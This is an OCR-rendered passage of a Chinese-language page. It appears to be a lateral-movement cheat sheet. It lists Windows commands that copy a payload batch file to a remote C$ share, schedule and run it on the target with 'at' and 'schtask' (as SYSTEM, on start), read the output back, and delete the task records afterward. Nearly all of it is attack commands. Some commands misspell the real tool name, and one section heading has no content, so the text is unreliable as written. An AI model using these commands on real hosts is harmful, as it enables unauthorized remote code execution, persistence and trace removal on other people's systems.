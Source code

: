 |     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>copy payload.bat \\IP\C$<br>``` |

##### [](#%E4%BD%BF%E7%94%A8-at-%E5%91%BD%E4%BB%A4%E5%88%9B%E5%BB%BA%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)使用 at 命令创建计划任务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>at \\IP 8:00AM C:\payload.bat<br>``` |

返回一个计划任务 ID

##### [](#%E6%B8%85%E9%99%A4-at-%E8%AE%B0%E5%BD%95)清除 at 记录

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>at \\IP taskID /delete<br>``` |

使用 at 将执行结果保存到远程，再读取结果：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>at \\IP 8:00AM cmd.exe /c "ipconfig > C:/1.txt"<br>``` |

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>type \\IP\C$\1.txt<br>``` |

#### [](#schtask-%E5%91%BD%E4%BB%A4)schtask 命令

##### [](#%E5%BB%BA%E7%AB%8B-ipc-%E8%BF%9E%E6%8E%A5)建立 IPC 连接

##### [](#%E5%88%9B%E5%BB%BA%E5%90%8D%E4%B8%BA-task-%E7%9A%84%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)创建名为 task 的计划任务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>schtask /create /s IP /tn test /sc onstart /tr c:\payload.bat /ru system /f<br>``` |

##### [](#%E6%89%A7%E8%A1%8C%E8%AF%A5%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)执行该计划任务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>schtask /run /s IP /i /tn "test"<br>``` |

##### [](#%E5%88%A0%E9%99%A4%E8%AE%A1%E5%88%92%E4%BB%BB%E5%8A%A1)删除计划任务

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>schtask /delete /s IP /tn "test" /f<br>``` |
